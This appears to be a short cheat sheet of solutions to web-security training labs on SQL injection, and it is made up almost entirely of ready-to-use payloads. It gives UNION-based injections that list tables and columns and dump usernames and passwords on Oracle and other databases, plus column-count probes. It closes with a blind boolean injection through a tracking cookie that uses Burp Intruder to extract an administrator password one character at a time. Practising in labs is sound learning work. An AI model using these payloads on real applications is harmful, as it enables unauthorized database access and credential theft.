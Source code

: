 
**SQL injection attack, listing the database contents on non-Oracle databases**

    category filter
```sql
' ORDER BY 2 --
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables --
' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE TABLE_NAME = ‘users_dokxpf’ --
' UNION SELECT username_vjwkzr,password_pxooax FROM users_dokxpf --
```

---

**SQL injection attack, listing the database contents on Oracle**

    category filter
```sql
' ORDER BY 2 --
' UNION SELECT TABLE_NAME,NULL FROM all_tables --
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_STSRYZ'--
' UNION SELECT USERNAME_OZMBYW,PASSWORD_HJGEGA FROM USERS_STSRYZ --
```

---

**SQL injection UNION attack, determining the number of columns returned by the query**
```sql
' UNION SELECT NULL,NULL,NULL --
' UNION SELECT 777,'TEST',13 --
```

---
**SQL injection UNION attack, retrieving data from other tables**
```sql
' ORDER BY 2 --
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables --
' UNION SELECT username,password FROM users --
```
---
**SQL injection UNION attack, retrieving multiple values in a single column**
```sql
' UNION SELECT NULL,username||'~'||password FROM users --
```
---
**Blind SQL injection with conditional responses**
    
    Cookie: TrackingId=...
    Welcome back!
1. add TrackingId asd..'AND '1'='1 then AND '1'='2
2. observe the response (any different?)
3. `TrackingId=..PBo' AND (SELECT 'a' FROM users LIMIT 1)='a `
4. go to Burp Intruder `TrackingId=...' AND (SELECT SUBSTRING(password,$pos$,1) FROM users WHERE username='administrator')='$password_a,b,c..,1,2,3$`

---
